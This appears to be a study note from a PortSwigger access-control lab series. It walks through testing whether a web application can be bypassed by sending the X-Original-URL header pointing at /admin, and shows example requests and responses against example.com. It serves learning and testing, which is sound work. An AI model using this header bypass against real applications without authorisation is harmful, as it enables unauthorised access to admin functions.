

## Testing for Access Control Vulnerabilities

To test for access control vulnerabilities related to the `X-Original-URL` header, follow these steps:

1. **Send a Normal Request**: First, send a normal request without any special headers and observe the response. This helps establish a baseline behavior of the application.

    ```http
    GET /nonexistent_directory/3243 HTTP/1.1
    Host: example.com
    ```

    Expected Response:
    ```http
    HTTP/1.1 404 Not Found
    Content-Type: text/html; charset=UTF-8
    Content-Length: 159

    <html>
    <head><title>Not Found</title></head>
    <body>
    <center><h1>404 Not Found</h1></center>
    </body>
    </html>
    ```

2. **Add the `X-Original-URL` Header**: Next, send a request with the `X-Original-URL` header set to a restricted URL, such as `/admin`.

    ```http
    GET /nonexistent_directory/3243 HTTP/1.1
    Host: example.com
    X-Original-URL: /admin
    ```

    Expected Response:
    ```http
    HTTP/1.1 200 OK
    Content-Type: text/html; charset=UTF-8
    Content-Length: 159

    <html>
    <head><title>Admin Panel</title></head>
    <body>
    <center><h1>Welcome to the Admin Panel</h1></center>
    </body>
    </html>
    ```

If the response changes from a 404 error to a successful response, it indicates that the application is improperly handling the `X-Original-URL` header.

### Mermaid Diagrams

A sequence diagram can help visualize the interaction between the client and the server during this test.



---
<!-- nav -->
[[Web Security (PortSwigger)/12-Access Control Vulnerabilities/06-Lab 5 URL based access control can be circumvented/07-Practice Labs|Practice Labs]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/06-Lab 5 URL based access control can be circumvented/00-Overview|Overview]] | [[09-Understanding the Lab Setup|Understanding the Lab Setup]]
